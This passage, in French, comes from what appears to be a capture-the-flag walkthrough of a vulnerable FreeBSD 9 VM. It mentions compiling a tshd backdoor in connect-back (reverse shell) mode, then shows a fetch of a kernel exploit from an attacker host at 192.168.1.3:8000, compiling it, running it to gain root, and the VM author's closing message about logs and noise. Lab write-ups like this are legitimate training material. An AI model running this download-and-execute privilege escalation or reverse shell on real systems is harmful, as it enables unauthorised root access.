On va pouvoir rapatrier un *tshd* (voir mes précédents articles) et le compiler en mode connect-back (*make freebsd* après édition de *tsh.h*).  

Une fois qu'on a un shell digne de ce nom, il nous reste plus qu'à passer root. On trouve [un exploit pour le kernel 9 sur exploit-db](http://www.exploit-db.com/exploits/26368/) :  

```bash
$ fetch http://192.168.1.3:8000/sploit.c
sploit.c                                      100% of 2215  B   17 MBps
$ gcc -o sploit sploit.c
$ ./sploit
FreeBSD 9.{0,1} mmap/ptrace exploit
by Hunger <fbsd9lul@hunger.hu>
# id
uid=0(root) gid=0(wheel) egid=80(www) groups=80(www)
# ls /root
.cshrc                  .k5login                .mysql_history          congrats.txt            httpd-access.log        monitor.py
.history                .login                  .profile                folderMonitor.log       lazyClearLog.sh         ossec-alerts.log
# cat /root/congrats.txt 
If you are reading this, it means you got root (or cheated).
Congratulations either way...

Hope you enjoyed this new VM of mine. As always, they are made for the beginner in 
mind, and not meant for the seasoned pentester. However this does not mean one 
can't enjoy them.

As with all my VMs, besides getting "root" on the system, the goal is to also
learn the basics skills needed to compromise a system. Most importantly, in my mind,
are information gathering & research. Anyone can throw massive amounts of exploits
and "hope" it works, but think about the traffic.. the logs... Best to take it
slow, and read up on the information you gathered and hopefully craft better
more targetted attacks. 

For example, this system is FreeBSD 9. Hopefully you noticed this rather quickly.
Knowing the OS gives you any idea of what will work and what won't from the get go.
Default file locations are not the same on FreeBSD versus a Linux based distribution.
Apache logs aren't in "/var/log/apache/access.log", but in "/var/log/httpd-access.log".
It's default document root is not "/var/www/" but in "/usr/local/www/apache22/data".
Finding and knowing these little details will greatly help during an attack. Of course
my examples are specific for this target, but the theory applies to all systems.

As a small exercise, look at the logs and see how much noise you generated. Of course
the log results may not be accurate if you created a snapshot and reverted, but at least
it will give you an idea. For fun, I installed "OSSEC-HIDS" and monitored a few things.
Default settings, nothing fancy but it should've logged a few of your attacks. Look
at the following files:
/root/folderMonitor.log
/root/httpd-access.log (softlink)
/root/ossec-alerts.log (softlink)

The folderMonitor.log file is just a cheap script of mine to track created/deleted and modified
files in 2 specific folders. Since FreeBSD doesn't support "iNotify", I couldn't use OSSEC-HIDS 
for this.
The httpd-access.log is rather self-explanatory .
Lastly, the ossec-alerts.log file is OSSEC-HIDS is where it puts alerts when monitoring certain
files. This one should've detected a few of your web attacks.

Feel free to explore the system and other log files to see how noisy, or silent, you were.
And again, thank you for taking the time to download and play.
Sincerely hope you enjoyed yourself.

Be good...

```